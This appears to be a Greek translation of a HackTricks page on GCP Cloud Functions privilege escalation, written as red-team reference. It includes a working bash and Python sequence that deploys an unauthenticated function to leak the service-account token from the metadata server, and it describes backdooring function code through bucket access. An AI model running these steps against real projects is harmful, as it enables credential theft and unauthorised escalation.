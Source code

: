 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Περισσότερες πληροφορίες σχετικά με τις Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **δημιουργήσει μια νέα Cloud Function με αυθαίρετο (κακόβουλο) κώδικα και να της αναθέσει έναν Service Account**. Στη συνέχεια, να διαρρεύσει το token του Service Account από τα μεταδεδομένα για να κλιμακώσει τα δικαιώματα σε αυτόν.\
Ορισμένα δικαιώματα για να ενεργοποιηθεί η λειτουργία μπορεί να απαιτούνται.

Τα σενάρια εκμετάλλευσης για αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) και [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) και το προεγκατεστημένο αρχείο .zip μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **τροποποιήσει τον κώδικα μιας Function και ακόμη και να τροποποιήσει τον service account που είναι συνδεδεμένος** με στόχο την εξαγωγή του token.

{% hint style="danger" %}
Για να αναπτύξετε cloud functions θα χρειαστείτε επίσης δικαιώματα actAs πάνω από τον προεπιλεγμένο service account υπολογιστή ή πάνω από τον service account που χρησιμοποιείται για την κατασκευή της εικόνας.
{% endhint %}

Ορισμένα επιπλέον δικαιώματα όπως η άδεια `.call` για την έκδοση 1 των cloudfunctions ή ο ρόλος `role/run.invoker` για να ενεργοποιήσετε τη λειτουργία μπορεί να απαιτούνται.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Αν λάβετε το σφάλμα `Permission 'run.services.setIamPolicy' denied on resource...` είναι επειδή χρησιμοποιείτε την παράμετρο `--allow-unauthenticated` και δεν έχετε αρκετά δικαιώματα για αυτό.
{% endhint %}

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Με αυτή την άδεια μπορείτε να αποκτήσετε μια **υπογεγραμμένη διεύθυνση URL για να μπορέσετε να ανεβάσετε ένα αρχείο σε έναν κάδο λειτουργίας (αλλά ο κώδικας της λειτουργίας δεν θα αλλάξει, πρέπει ακόμα να τον ενημερώσετε)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Δεν είμαι σίγουρος πόσο χρήσιμη είναι μόνο αυτή η άδεια από την προοπτική ενός επιτιθέμενου, αλλά καλό είναι να το γνωρίζουμε.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Δώστε στον εαυτό σας οποιοδήποτε από τα προηγούμενα **`.update`** ή **`.create`** δικαιώματα για να κλιμακώσετε.

### `cloudfunctions.functions.update`

Έχοντας μόνο **`cloudfunctions`** δικαιώματα, χωρίς **`iam.serviceAccounts.actAs`** δεν **θα μπορείτε να ενημερώσετε τη λειτουργία, ΟΠΟΤΕ ΑΥΤΟ ΔΕΝ ΕΙΝΑΙ ΜΙΑ ΕΓΚΥΡΗ ΚΛΙΜΑΚΩΣΗ.**

### Πρόσβαση Ανάγνωσης & Εγγραφής πάνω στον κάδο

Εάν έχετε πρόσβαση ανάγνωσης και εγγραφής πάνω στον κάδο, μπορείτε να παρακολουθείτε τις αλλαγές στον κώδικα και όποτε συμβαίνει μια **ενημέρωση στον κάδο, μπορείτε να ενημερώσετε τον νέο κώδικα με τον δικό σας κώδικα** ώστε η νέα έκδοση της Cloud Function να εκτελείται με τον υποβληθέντα κώδικα με backdoor.

Μπορείτε να ελέγξετε περισσότερα σχετικά με την επίθεση στο:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ωστόσο, δεν μπορείτε να το χρησιμοποιήσετε για να προ-συμβιβάσετε τρίτες Cloud Functions, επειδή αν δημιουργήσετε τον κάδο στον λογαριασμό σας και του δώσετε δημόσιες άδειες ώστε το εξωτερικό έργο να μπορεί να γράψει πάνω του, λαμβάνετε το εξής σφάλμα:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ωστόσο, αυτό θα μπορούσε να χρησιμοποιηθεί για επιθέσεις DoS.
{% endhint %}

### Πρόσβαση Ανάγνωσης & Εγγραφής πάνω στο Artifact Registry

Όταν δημιουργείται μια Cloud Function, μια νέα εικόνα docker αποστέλλεται στο Artifact Registry του έργου. Προσπάθησα να τροποποιήσω την εικόνα με μια νέα και ακόμη και να διαγράψω την τρέχουσα εικόνα (και την εικόνα `cache`) και τίποτα δεν άλλαξε, η cloud function συνεχίζει να λειτουργεί. Επομένως, ίσως **να είναι δυνατό να εκμεταλλευτείτε μια επίθεση Race Condition** όπως με τον κάδο για να αλλάξετε το docker container που θα εκτελείται, αλλά **απλά τροποποιώντας την αποθηκευμένη εικόνα δεν είναι δυνατό να συμβιβάσετε την Cloud Function**.

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
